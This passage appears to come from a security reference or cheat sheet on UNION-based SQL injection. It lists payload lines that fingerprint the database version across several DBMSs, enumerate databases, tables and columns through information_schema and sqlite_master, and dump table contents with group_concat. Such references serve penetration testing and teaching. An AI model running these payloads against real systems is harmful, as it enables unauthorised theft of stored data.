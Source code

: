 <details class="details-n"><summary><b>error-based</b> using <code>UNION SELECT</code></summary></details>

<details class="details-n"><summary><b>error-based</b> using <code>ORDER BY</code></summary></details>

The second objective is to find the DBMS, and it's version, just to ensure that any following query is valid in the DBMS language. You can fetch the user too with `user()`.

```none
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
...
```

> Note that there may be an error at this point if the server was expecting the first value of the select to be an "int" (for instance). Simply move the call of `@@version/...`, until it's successful.
</div><div>

**Note**: functions available in MariaDB/MySQL, and PostgresSQL maybe

The third objective is to find the database name.

```none
UNION SELECT database(), NULL, NULL, NULL
```

The fourth objective is to find the tables. Note that the following query will return one result, but if your attack channel allow you to display more than one, then you may remove the `group_concat`.

```none
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
```

Then, you may want to know a column names given a table

```none
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
```

Now, you have everything you need to dump all results.

```none
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
```

<p class="mt-3"><b>Notes for SQLite</b></p>

```none
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
UNION SELECT group_concat(col1 || ":" || col2, '<br>') [...]
```
